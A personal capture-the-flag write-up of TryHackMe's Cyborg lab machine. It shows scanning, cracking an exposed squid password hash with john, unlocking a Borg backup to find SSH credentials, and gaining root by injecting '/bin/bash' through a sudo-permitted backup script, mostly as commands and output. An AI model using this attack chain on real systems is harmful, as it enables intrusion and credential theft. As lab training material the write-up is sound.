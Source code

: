 ```yaml
---
title: "TryHackMe Cyborg Walkthrough - Complete CTF Solution and Learning Guide"
description: "Complete walkthrough of TryHackMe's Cyborg room. Learn penetration testing techniques, vulnerability exploitation, and privilege escalation methods."
keywords: ["tryhackme cyborg", "ctf walkthrough", "penetration testing", "linux exploitation", "privilege escalation", "cyber security", "ethical hacking"]
tags: ["tryhackme", "ctf", "walkthrough", "penetration-testing", "linux"]
sidebar_position: 1
---
```


:::info Description

These are my notes for the [Cyborg Room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## RECON

### Nmap

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

I found:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

results (didnt note the command):

```bash
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

I browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Let's crack it.

## Crack

```bash
└─$ john passwd --wordlist=/usr/share/wordlists/rockyou.txt                                                  130 ⨯
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:01 DONE (2022-01-15 23:24) 0.6711g/s 26158p/s 26158c/s 26158C/s wonderfull..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We have user/password = `music_archive/squidward`

## Enumerate web folders

I found `squid.conf`:

```bash
# http://10.10.19.193/etc/squid/squid.conf

auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### archive.tar

I found archive on `view-source:http://10.10.148.181/admin/index.html` = `http://10.10.148.181/admin/archive.tar`

downloaded & extracted - contains a BORG archive.

might come in handy later:

```sh
└─$ strings integrity.5
version
hints
@{"algorithm": "XXH64", "digests": {"final": "05178884e81563d7"\}\}
index
b{"algorithm": "XXH64", "digests": {"HashHeader": "146e9cb969e480a3", "final": "b53737af67235823"\}\}
```

config file

```sh
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
        L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
        2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
        8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
        daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
        oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
        eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
        T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
        vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
        SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
        UCH8bjZLfc1GFsundmVyc2lvbgE=
```

## Borg Backup System

the tar is a borg deduplication file/archive [borg](https://borgbackup.readthedocs.io/en/stable/index.html).

the [usage](https://borgbackup.readthedocs.io/en/stable/usage/general.html) is e.g. `borg list /path/to/archive`

for the archive.tar with `/home/field/dev` the actual "archive" is the folder `final_archive`:

use the passwd we cracked `squidward`:

```bash
┌──(kali㉿kali)-[~/…/download/home/field/dev]
└─$ borg list ./final_archive
Enter passphrase for key /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/CYBORG/download/home/field/dev/final_archive:
music_archive                        Wed, 2020-12-30 03:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

so will try and extract it, see any info in it.

## PRIVESC

### user.txt

mounted archive using `borg mount ./final_archive /tmp/borg`, mounts the FUSE filesystem archive at `/tmp/borg` and was the users whole home dir backup. had a look around and found `Document\note.txt` which had:

```bash
└─$ cat Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

use it to `ssh alex@10.10.148.181` and got the `user.txt` flag.

```bash
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### root.txt

check what alex can do with `sudo`:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking through the `/etc/mp3backups/backup.sh` and this part looks the most interesting because it's allowing a command to be injected in here, running as root :D

```bash
#!/bin/bash

...

while getopts c: flag
do
  case "$\{flag}" in
    c) command=$\{OPTARG};;
  esac
done

...

```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script:

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c /bin/bash
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:~#
```

because this spawns a shell halfway through the script, the output will be going to some other output, so we don't see the results until I exit out of the shell:

```bash
root@ubuntu:~# id; whoami; cat /root/root.txt
root@ubuntu:~# exit
uid=0(root) gid=0(root) groups=0(root) root flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
